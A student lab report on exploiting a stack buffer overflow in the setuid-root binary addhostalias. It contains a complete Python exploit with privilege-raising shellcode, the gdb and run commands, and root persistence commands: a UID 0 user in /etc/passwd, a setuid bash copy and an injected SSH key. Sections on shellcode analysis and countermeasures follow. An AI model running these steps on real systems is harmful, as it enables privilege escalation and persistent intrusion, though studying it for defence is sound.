


# Lab2 Buffer Overruns

**Group 47: Wenjun Tian, Yicheng Li | Apr. 10, 2025**

## 1. Exploit Procedure

### 1.1 Exploit Methodology

According to the target's source file, the buffer that we can exploit works as follows:

```c
  char formatbuffer[256]; 
  ...
  sprintf(formatbuffer, "%s\t%s\t%s\n", ip, hostname, alias);
```

The `ip`, `hostname` and `alias` arguments are collected from the input.

```c
#define IPADDR      1
#define HOSTNAME    2
#define ALIAS       3
add_alias(argv[IPADDR], argv[HOSTNAME], argv[ALIAS]);
```

According to the stack structure introduced in the slides, we can illustrate the stack of  `add_alias()`function when being exploited:

1. Initial state

```
[High Addr]	
| original ret addr  | 		↓		
----------------------		↓	stack growing
| ebp of the caller  | 		↓
----------------------	 
| 			  		|
| 		 		 	|	
| 					|	
|char formatbuffer[] |
----------------------
[Low Addr]
<--------4B-wide----->
```

2. Inject malicious code into the `formatbuffer[]`. the payload consists of 3 parts: 

   A: a `NOP sled` where the function should return to.  It is composed of `no-operation` instructions, thus starting from anywhere inside the  NOP sled can lead to the shellcode.

   B:  the malicious shell code to be executed.

   C: return address to the NOP sled.

```
[High Addr]	
| malicious ret addr X | ↑	--> the original ret addr has been changed			
----------------------	 ↑	
|malicious ret addr X |  ↑		
----------------------	 ↑
|malicious ret addr X |	 ↑
| 		shellcode  	 |	↑
| 		shellcode  	 |	↑  buffer writing 
| 		NOP_sled	 |	↑
| 		.........	 |	↑  ---> where X locates
| 		NOP_sled	 |	↑
|char formatbuffer[] |
----------------------
[Low Addr]
<--------4B-wide----->
```

3. Jump to malicious shell code when `

```
[High Addr]	
| malicious ret addr X | 	→--------------↓		
----------------------	 				 ↓	
|malicious ret addr X |  				 ↓
----------------------	 				 ↓  1. return to shell code
|malicious ret addr X |	 				 ↓
| 		shellcode  	| -> 2. open new shell↓
| 		shellcode  	| 	←-----------------↓
| 		NOP_sled	 |
| 		.........	 |	 
| 		NOP_sled	 |	
|char formatbuffer[] |
----------------------
[Low Addr]
<--------4B-wide----->
```

Clearly, if we do not check the boundary of the `formatbuffer[]` here, excessive input can overflow and then overwrite the return address of the function `add_alias()`. Thus, by manipulating the return address, after the execution of `add_alias()`, we can execute the malicious code in the buffer that comes from the input, such as opening a new shell in this case. 

Moreover, since the target binary is owned by `root` and the `setuid` bit is enabled, the shell we opened can be a `root` shell.

### 1.2 Find Return Address

To locate the buffer, we can simply take the following steps:

1. Use `gdb` to run the target binary. The inputs are special strings that we can easily recognize: `aaa...`, `bbb...`, and `ccc...` (in hex).

```
gdb --args /usr/bin/addhostalias $(python -c "print '\xaa' * 85") $(python -c "print '\xbb' * 85") $(python -c "print '\xcc' * 85")
```

2. Make a break point after the aforementioned `sprintf()` function. Here we choose the `fopen()` function right after it.

```
(gdb) b fopen
Breakpoint 1 at 0x8048440
```

3. Run the binary, dump the stack and locate the target buffer.

   

   

   Here we can clearly see the location of the buffer: from `0xbffffa8c` to `0xbffffb8c`.

Thus, the return address can be somewhere from `0xbffffa8c` to `0xbffffa8c + len_of_NOP_sled`.

### 1.3 Construct the Injection Code

As aforementioned, we can construct the injection code as follows:

1. Part A: A NOP sled with a length of `len(formatbuffer)-len(shellcode)`
2. Part B: The given shellcode. As described in the lab instruction, the code generally create a shell, and set the real UID and GID as the effective UID, which is `root` here.
3. Part C: 4 NOP instructions (4 bytes) to jump over the base pointer + The return address

Thus, the final payload looks like:

```
payload = nop_sled (181B) + shellcode (75B) + nop*4 (4B, jump over BP) + ret_addr (4B)
```

The python code to generate the injection code is as follows.

```python
#!/usr/bin/env python2

import os
import struct

# part A: the NOP sled
nop = "\x90"
nop_sled = nop * (256 - 75)

# part B: the malicious shell code to be executed
shellcode = ('\xb9\xff\xff\xff\xff\x31\xc0\xb0\x31\xcd\x80'
               +'\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\xb0'
               +'\x32\xcd\x80\x89\xc3\xb0\x31\xb0\x47\xcd\x80'
               +'\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68'
               +'\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0'
               +'\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90'
               +'\x90\x90\x90\x90\x90\x90\x90\x90\x90')

# the ret addr is somewhere in the middle of the NOP sled.
ret_addr = struct.pack("i", 0xbffffae0)

# payload = nop_sled (181B) + shellcode (75B) + nop*4 (4B, jump over BP) + ret_addr (4B)
exploit = nop_sled + shellcode + nop * 4  + ret_addr

print exploit
```

### 1.4 Perform the exploit.

Here, we execute `addHostAlias`. The `ip` argument is the injection code we created. Note that other arguments are arbitrary.

```
addhostalias $(python exploit.py) f x
```

Since the binary `addhostalias` belongs to the `root` user, and the `-s` flag is enabled, which means that when executing it, our effective UID becomes `0`, enabling the shellcode to set the new shell's UID/GID to 0. 


And then we get access to a root shell as expected.



The memory layout of this exploitation is as follows:


## 2. Persistent Access

After getting a temporary root shell access, there are various ways to make it persistent.

### 2.1 Create a New Root User

Add a user with `UID=0`. This approach can be easily detected by monitoring `/etc/passwd` and `/etc/shadow` files.

```shell
echo 'hacker::0:0:root:/root:/bin/bash' >> /etc/passwd
echo 'hacker:$6$passwd:19000:0:99999:7:::' >> /etc/shadow
```

### 2.2 Create a Backdoor Shell

Create a new copy of the shell and make the set-UID bit enabled.

```shell
cp /bin/bash /tmp/notabackdoor
chmod +s /tmp/notabackdoor
```

Since a new file is created, it is easily to detect.

### 2.2  Add Backdoor SSH keys

Drop in our public key to root’s authorized keys:

```shell
mkdir -p /root/.ssh
echo "ssh-rsa AAAA... amamiya@mikufan.tv" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

### 2.3 General Countermeasures

All the aforementioned methods to make the illegal root access persistent have to modify important files or create new files. Therefore, monitoring important files, such as SSH keys and Linux user/password files, is extremely important. 

Moreover, logging the behavior of root users is also useful to detect abnormal actions in advance, and it also helps restore the system after intrusion quicker.

Furthermore, since the attacker is more likely to access the system through network connections, applying an IDS to filter suspicious data may also help.


## 3. Shellcode Analysis

Here are some explanations about the important parts of the shell code mentioned in the lab instructions.

### 3.1 "\x31\xc0" 

`\x31\xc0` means `XOR eax, eax` in assembly. This instruction is to create value `0` without directly write it in the code. 

`0` is the UID and GID of `root`, thus we need to pass it to system calls such as `setuid`, `setgid` and `setresuid`. However, `0` can be treated as a `\0` character (both are `0x00` in hex), which is the end flag of strings and thus it can terminate `sprintf`. To avoid this null character, we use `eax XOR eax` to reproduce `0` here.

### 3.2  "\x89\xc3"

`\x89\xc3` means `mov ebx, eax` in assembly. As we mentioned above, `eax` stores the artificial `0` we calculated. And in assembly, when calling functions, `ebx` is usually used to store the first argument. Since we are going to use system calls like `setuid(0)` to set the user as root, this instruction is very important.

### 3.3 "\xb0\x47"

`\xb0\x47` means `mov al, 0x47` in assembly, and it is followed by `int 0x80`. Those 2 instructions is to invoke system call number `0x47`, which is `setregid`. 

Therefore, the aim of the function is to set `RGID` and `EGID` as root. This is to gain complete control of the system, such as the complete access of `/root`.

Actually, the whole shell code can be interpreted as the following C code:

```c
// Change ruid and euid to root
// Both functions have the same sematics. Use them at the same time for compatibility reasons.
setuid(0);
setreuid(0, 0);
// Change rgid and egid to root
// Both functions have the same sematics. Use them at the same time for compatibility reasons.
setgid(0);
setregid(0, 0);   //<--- which contains "mov al, 0x47"
// Execute shell
char *argv[] = {"/bin/sh", NULL};
execve("/bin/sh", argv, NULL);
```

## 4. Countermeasures

We discuss the countermeasures at the following levels:

### 4.1  Language

1. Check the buffer boundaries. Replace `sprintf()` with `snprintf()`, which can set limit on the maximum length of input, and thus avoid buffer overflow. Moreover, we can turn to programming languages with automatic array boundary check, such as `Rust`.
2. Restrict the scope of elevated privileges. Only grant the minimum privilege a program needs to reduce potential risk of exploitation.
3. Using static analysis tools, such as Clang static analyzer, Coverity, etc.

### 4.2 Run-time

1. Use stack canaries. Add `-fstack-protector` flag when compiling with `gcc` can insert a random canary before the return address to detect data tempering during runtime. However, it is easy to escape, and it requires recompiling the code.

### 4.3 Operating System

1. Use Data Execution Prevention (DEP). This technique makes the stack/heap area as non-executable at hardware/OS level, thus prevents the execution of malicious code in the exploited buffer. However, it cannot prevent Return Oriented Programming (ROP), which can utilize snippets of codes outside the buffer.
2. Sandboxing. We can put the vulnerable programs into sandboxes, and thus the attacker can only get access to more limited resources.
3. Use Address Space Layout Randomization (ASLR). This can make the address of system calls more obscure for the attackers, and thus make it difficult to execute shell code. However, randomization is a overhead that we have to trade off. Simple randomization is easy to crack, and complex randomization leads to awful performance.